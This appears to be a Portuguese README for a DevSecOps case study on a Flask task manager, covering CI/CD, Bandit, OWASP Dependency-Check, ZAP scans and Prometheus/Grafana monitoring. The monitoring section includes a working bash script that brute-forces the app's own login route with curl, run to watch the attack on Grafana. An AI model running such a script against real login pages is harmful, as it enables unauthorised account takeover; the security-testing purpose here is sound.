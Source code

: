 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />
   
2. Construir o Diagrama para entender o dominio do problema:

![DFD](https://github.com/gustavogss/task-manager/blob/main/images/dfd.png)
<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

***Branchs***: 
- master: produção
- development: desenvolvimento
- staging: homologação


***Ferramentas Utilizadas***: 
- Visual Studio Code
- Gitlab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra 
- Prometheus
- Grafana
  
<br />

1. Implementação do Dockerfile

![dockerfile](https://github.com/gustavogss/task-manager/blob/main/images/dockerfile.png)

<br />


2. Aplicação executada na porta 5000:

![app](https://github.com/gustavogss/task-manager/blob/main/images/app.png)

<hr>


### ETAPA3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline

![gitlab](https://github.com/gustavogss/task-manager/blob/main/images/gitlabci.png)

<br />

2. Pipeline em execução no gitlab:

![pipeline-inital](https://github.com/gustavogss/task-manager/blob/main/images/pipeline-initial.png)

<hr>


### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:

![bandit](https://github.com/gustavogss/task-manager/blob/main/images/bandit.png)

<br />

2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artfect-bandit](https://github.com/gustavomob/devsecops-taskmanager/blob/main/images/artefact-zap-attack-tools.png)

<br />

3. Correção no código da falha capturada pelo Bandit:

![fix-bandit](https://github.com/gustavogss/task-manager/blob/main/images/fixenv.png)

<br />
   
4. Implementação do OWASP Dependency Check na pipeline:

![owasp-dependency-check](https://github.com/gustavogss/task-manager/blob/main/images/owasp-dependecy-check.png)

<br />

5. Artefato gerado com vulnerabilidades no código javascript:

![artfect-dependency](https://github.com/gustavogss/task-manager/blob/main/images/artifect-dependency-check.png)
<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA  (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

 ![zed](https://github.com/gustavogss/task-manager/blob/main/images/zap-attack-tools.png)
 
  <br />
  
2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:

![artefact-zed](https://github.com/gustavogss/task-manager/blob/main/images/artefact-zap-attack-tools.png)
<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa revisão de código na pipeline:

![review](https://github.com/gustavogss/task-manager/blob/main/images/review-pipeline.png)

<br />
   
2. Implementação do OWASP ZAP para executar em toda pipeline na homologação: 

![owasp-zap](https://github.com/gustavogss/task-manager/blob/main/images/dast.png)

<hr>


### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometehues-grafana](https://github.com/gustavogss/task-manager/blob/main/images/grafana-prometheus.png)

<br />
   
2. Implementação do ataque de bruta force em python:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavogss/task-manager/blob/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline-full](https://github.com/gustavogss/task-manager/blob/main/images/pipeline-finished.png)

<br />
